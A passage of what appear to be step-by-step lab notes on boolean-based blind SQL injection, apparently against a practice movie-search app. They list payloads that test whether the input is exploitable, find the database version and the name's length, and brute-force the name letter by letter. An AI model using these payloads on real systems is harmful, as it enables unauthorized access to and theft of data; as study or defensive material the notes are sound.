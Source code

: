2) See if the input is exploitable
Iron Man' AND 1=1 -- -
Iron Man' AND 1=1#

then...

Iron Man' AND 1=2 -- -
Iron Man' AND 1=2#

the above should return false...

3) Get SQL Version
Iron Man' AND substring (version(),1,1)=4 -- -

keep increment until TRUE is returned...

4) Get length of database name
Iron Man' AND length(database())=4 -- -

keep incrementing until TRUE is returned...

5) Brute force database name
Iron Man' AND substring(database(),1,1)='a' -- -
Iron Man' AND substring(database(),1,1)='b' -- -
...
Iron Man' AND substring(database(),1,1)='Z' -- -

Iron Man' AND substring(database(),2,1)='a' -- -
Iron Man' AND substring(database(),2,1)='b' -- -
...
Iron Man' AND substring(database(),3,1)='Z' -- -

keep incrementing till the database name has been
brute forced, remember we got the length of the
name above...
---
---
